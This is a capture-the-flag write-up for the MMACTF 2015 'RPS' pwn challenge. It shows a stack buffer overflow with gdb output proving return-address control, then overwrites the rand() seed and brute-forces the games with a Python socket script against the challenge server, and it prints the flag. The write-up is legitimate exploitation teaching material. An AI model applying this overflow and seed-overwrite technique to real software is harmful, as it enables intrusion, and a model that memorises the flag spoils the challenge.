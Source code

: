 ```yaml
---
layout: post
title: "Write up | MMACTF 2015 - Pwn - RPS"
date: 2015-09-09 15:14:40 +0000
comments: true
categories: 
---
```


~~~
Problem
Win 50 games in a row!
nc milkyway.chal.mmactf.link 1641
~~~
[rps.7z](http://assets.score.mmactf.link/attachments/rps.7z-5c18b372802c14abfec93c81a2cfdc5bac7f5aeeb16ad7404aace7ae25591c6e)

Try to overflow the input, I discover that with payload `'1' * 88 + myaddr` , I can control the EIP to myaddr

```
gdb-peda$ r < data
Starting program: /root/MMACTF/rps/rps < data
What's your name: Hi, 11111111111111111111111111111111111111111111111111111111111111111111111111111111111111114321ABCD
Let's janken
Game 1/50
Rock? Paper? Scissors? [RPS]Bye bye

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x7ffff7b13f60 (<__write_nocancel+7>:      cmp    rax,0xfffffffffffff001)
RDX: 0x0
RSI: 0x7ffff7dd7780 --> 0x0
RDI: 0x7ffff7dd6620 --> 0xfbad2a84
RBP: 0x3131313131313131 ('11111111')
RSP: 0x7fffffffea78 ("4321ABCD")
RIP: 0x400ae2 (<main+732>:      ret)
R8 : 0x7ffff7dd7780 --> 0x0
R9 : 0x7ffff7fed700 (0x00007ffff7fed700)
R10: 0x355
R11: 0x246
R12: 0x400710 (<_start>:        xor    ebp,ebp)
R13: 0x7fffffffeb50 --> 0x1
R14: 0x0
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x400ad7 <main+721>: call   0x4006e0 <fflush@plt>
   0x400adc <main+726>: mov    eax,0x0
   0x400ae1 <main+731>: leave
=> 0x400ae2 <main+732>: ret
   0x400ae3:    nop    WORD PTR cs:[rax+rax*1+0x0]
   0x400aed:    nop    DWORD PTR [rax]
   0x400af0 <__libc_csu_init>:  push   r15
   0x400af2 <__libc_csu_init+2>:        mov    r15d,edi
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffea78 ("4321ABCD")
0008| 0x7fffffffea80 --> 0x7fffffffeb00 --> 0x7fffffffeb58 --> 0x7fffffffed88 ("/root/MMACTF/rps/rps")
0016| 0x7fffffffea88 --> 0x7fffffffeb58 --> 0x7fffffffed88 ("/root/MMACTF/rps/rps")
0024| 0x7fffffffea90 --> 0x100000000
0032| 0x7fffffffea98 --> 0x400806 (<main>:      push   rbp)
0040| 0x7fffffffeaa0 --> 0x0
0048| 0x7fffffffeaa8 --> 0xe764facb54c92eb8
0056| 0x7fffffffeab0 --> 0x400710 (<_start>:    xor    ebp,ebp)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000000400ae2 in main ()
```

But, the address of line printing "Congrats" message contains **\x0a** character.
It is changed to other character when I push to the program.
I also try injecting shellcode to postfix, but it doesn't work too.

> Make it simple !

What about rand() ? Is it safe perfectly ?


I pay attention to `seed` of rand function. Seem like it can be overflowed too :)


Using gdb, i have where the name stored in memory

![name's address]()

=> `$bp-0x50`

And `...seed`

![seed's address]()

=> `$bp-0x20`

Calculate the length of payload:
```
0x50 - 0x20 = 0x30 ~ 48
```

So,
```
seed = 'AAAA'
payload = 'A' * 48 + seed
```

Keep the `seed`, we try to brute force the result.
I use this code:
```
#!/usr/bin/env python 2.7

import socket
import telnetlib
import struct

p = lambda x: struct.pack("I", x)
P = lambda x: struct.unpack("I", x)
q = lambda x: struct.pack("<Q", x)

def interact():
    t = telnetlib.Telnet()
    t.sock = s
    t.interact()

def r_until(st, debug=False):
    ret = ""
    while st not in ret:
        lret = s.recv(8192)
        if debug and len(lret) > 0:
            print lret
        ret += lret
    return ret

def tryluck(s, c):
    s.send(c + '\n')
    result = s.recv(1024)    
    if 'win' in result:
        return True
    return False

if __name__ == '__main__':
    correctAnswer = []
    guessAnswer = 0                                     # 0 for R, 1 for P, 2 for S 
    for sessionID in range(0, 1000):        
        s = socket.create_connection(('milkyway.chal.mmactf.link', '1641'))
        print r_until(':')
        name = "A" * 52                                 # 48 + 4    
        s.send(name + '\n')            
        gameID = 0    
        while True:          
            print '[+] sessionID:', sessionID, '        gameID:', (gameID+1)
            print '[+] correctAnswer', correctAnswer                        
            print r_until(']', debug=True)

            if gameID + 1 <= len(correctAnswer):        # I have saved result for this game
                s.send(correctAnswer[gameID] + '\n')
                result = s.recv(1024)
                print '[+] Result:', result            
            else:                                       # no result for this game exists
                if guessAnswer == 0:
                    answer = 'S'
                elif guessAnswer == 1:
                    answer = 'R'
                else:
                    answer = 'P'

                if not tryluck(s, answer):
                    guessAnswer += 1                    # choose another answer
                    break     

                correctAnswer.append(answer)            # win, record the answer
                guessAnswer = 0                                                        

            gameID += 1
```

Get flag: `MMA{treed_three_girls}`